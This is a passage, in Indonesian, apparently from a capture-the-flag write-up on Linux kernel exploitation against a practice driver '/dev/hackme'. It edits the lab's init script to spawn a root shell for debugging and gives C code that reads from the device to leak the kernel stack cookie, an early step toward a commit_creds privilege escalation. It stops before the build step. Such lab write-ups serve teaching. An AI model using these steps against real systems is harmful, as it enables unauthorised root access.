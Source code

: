 ```
::sysinit:/etc/init.d/rcS
::once:-sh -c 'cat /etc/motd; setuidgid 1000 sh; poweroff'

```
menjadi 


```
::sysinit:/etc/init.d/rcS
::once:-sh -c 'cat /etc/motd; setuidgid 0 sh; poweroff'
```
untuk memberikan kita akses root saat debugging, ini penting untuk mencari address yang dibutuhkan seperti commit_creds dan lainnya. karena jika tidak dalam keadaan root, itu tidak akan memberikan kita address apapun yang kita ingin ketahui.

untuk langkah pertama, ayo kita bocorkan stack cookie terlebih dahulu

```
#define _GNU_SOURCE_
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>
#include<fcntl.h>
#include<string.h>

#define DEV "/dev/hackme"

unsigned long user_ss, user_cs, user_rsp, user_rflags;
unsigned long kbase, cookie;
int fd;

void leak()
{
    unsigned long buff[50];
    read(fd,buff,sizeof(buff));

    for(int i=0; i< 50; i++){
        printf("%d: 0x%016lx\n" ,i, buff[i]);
    }
}

void open_dev()
{
    fd = open(DEV,O_RDWR);
    if(fd==-1){
        perror("open(fd)");
        exit(EXIT_FAILURE);
    }
}

int main()
{
    open_dev();

    leak();
    
    close(fd);
    return 0;
}

```
sebelum itu, kita harus mengedit file compress.sh. sesuaikan nama exploit.c kita:
